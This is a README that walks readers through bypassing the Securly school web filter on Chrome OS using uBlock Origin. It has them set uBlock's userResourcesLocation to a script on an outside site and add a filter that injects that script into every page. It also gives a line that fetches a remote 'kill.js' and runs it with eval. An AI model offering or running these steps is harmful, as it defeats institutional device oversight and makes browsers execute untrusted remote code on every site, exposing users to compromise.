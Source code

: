 
# Project Title



Fill with Securly bypasses and such and other chrome os bypasses because god forbid I use a computer for being a computer!


## SECURLY BYPASS UNBLOCK ORIGIN (Made By Zek-c Modified by Me)


[Tutorial On my Site!](https://jacksdamnserver.site/bypass/UnBlockOrigin/)
But if you dont wanna

1. Download uBlock Origin if not installed.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome.png)

2. Go to the settings in uBlock Origin.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome2.png)

3. Enable Advanced settings and click the gears.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome3.png)

4. Change ```userResourcesLocation``` to ```userResourcesLocation https://jacksdamnserver.site/exec.js``` and hit apply.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome4.png)

5.Now go back and click My Filters and set it to ```*##`+js(execute_script.js)``` and apply.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome5.png)
6. Go to https://securly.com

7.Copy this Javascript ```fetch('https://raw.githubusercontent.com/ThisJackRN/i-hate-securly/main/kill.js').then(r => r.text()).then(r => eval(r))``` 

8. Do the keybind Ctrl+Shift+~ to show the eval prompt and place the copied code into the eval prompt and hit enter!
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome7.png)
9. Click the off button and you are done.
